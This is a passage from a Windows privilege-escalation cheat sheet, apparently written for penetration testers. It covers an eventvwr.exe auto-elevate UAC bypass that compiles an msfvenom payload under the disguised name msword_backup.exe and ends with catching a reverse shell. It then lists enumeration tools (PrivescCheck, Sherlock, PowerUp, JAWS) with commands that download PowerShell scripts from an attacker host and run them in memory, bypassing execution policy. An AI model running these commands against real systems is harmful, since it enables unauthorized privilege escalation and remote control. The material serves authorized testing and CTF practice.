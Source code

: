 1. Ensure **eventvwr.exe** exists and has autoElevate set to true

```bash
.\strings64.exe -accepteula c:\windows\system32\eventvwr.exe | findstr -i autoelevate
```

1. Uncomment lines 66 and 69 and change line 68 to your msfvenom-generated filename, then compile.

```bash
x86_64-w64-mingw32-gcc main.c -o msword_backup.exe
```

1. Listen on the port specified by the msfvenom-generated filename and enjoy the shell.

### PrivescCheck

Great tool to enumerate based on hardware/installed software misconfiguration

[https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1)

```bash
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

### Sherlock

```bash
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
```

```bash
powershell "iex(new-object net.webclient).downloadString('http://$kali_ip/Sherlock.ps1');Find-AllVulns"
```

### PowerUp

An alternative to winPEAS

[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

```bash
IEX(New-Object Net.WebClient).DownloadString("http://$kali_ip/PowerUp.ps1"); Invoke-AllChecks
```

### JAWS

An alternative to winPEAS

[https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1](https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1)

### LAPS
